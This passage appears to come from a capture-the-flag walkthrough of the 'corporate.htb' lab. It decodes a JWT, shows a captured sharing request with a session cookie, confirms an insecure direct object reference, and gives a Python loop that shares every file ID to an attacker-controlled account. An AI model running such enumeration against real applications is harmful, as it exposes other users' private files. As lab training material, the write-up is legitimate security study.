 ```
❯ echo 'eyJpZCI6NTA3MiwibmFtZSI6IkNhbmRpZG8iLCJzdXJuYW1lIjoiSGFja2V0dCIsImVtYWlsIjoiQ2FuZGlkby5IYWNrZXR0QGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3NTk5NzI3OTEsImV4cCI6MTc2MDA1OTE5MX0' | base64 -d | jq
{
  "id": 5072,
  "name": "Candido",
  "surname": "Hackett",
  "email": "Candido.Hackett@corporate.htb",
  "roles": [
    "sales"
  ],
  "requireCurrentPassword": true,
  "iat": 1759972791,
  "exp": 1760059191
}
```

I opened a private browser session to log in as the new user.
![](Pasted%20image%2020251009092101.png)

Back in Cecelia's session, I tried sharing a file that was not owned by the user with Candido.
```http
POST /sharing HTTP/1.1
Host: people.corporate.htb
Content-Length: 46
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://people.corporate.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://people.corporate.htb/sharing
Accept-Encoding: gzip, deflate, br
Cookie: CorporateSSO=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3NywibmFtZSI6IkNlY2VsaWEiLCJzdXJuYW1lIjoiV2VzdCIsImVtYWlsIjoiQ2VjZWxpYS5XZXN0QGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3NTk5Njc0MTEsImV4cCI6MTc2MDA1MzgxMX0.KKmXmFpKL9sWQxNvJuLlhU-oEoze8Ron2glYzl8go-M; session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfX0=; session.sig=yuIlkeaDgvo0ZceAneGjWoR3SnM
Connection: keep-alive

fileId=1&email=candido.hackett%40corporate.htb
```

The file did show up in Candido's session, confirming the IDOR vulnerability.
![](Pasted%20image%2020251009093237.png)

I quickly put together a Python script to automate sharing files with `fileId` from 1 to 255.
```python
import requests

URL = "http://people.corporate.htb/sharing"
headers = {"Content-Type": "application/x-www-form-urlencoded"}
cookies = {"CorporateSSO": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3NywibmFtZSI6IkNlY2VsaWEiLCJzdXJuYW1lIjoiV2VzdCIsImVtYWlsIjoiQ2VjZWxpYS5XZXN0QGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3NTk5Njc0MTEsImV4cCI6MTc2MDA1MzgxMX0.KKmXmFpKL9sWQxNvJuLlhU-oEoze8Ron2glYzl8go-M"}

for i in range(1, 256):
    data = f"fileId={i}&email=candido.hackett%40corporate.htb"
    requests.post(url=URL, data=data, cookies=cookies, headers=headers)
    print(f"sharing fileId={i}")
```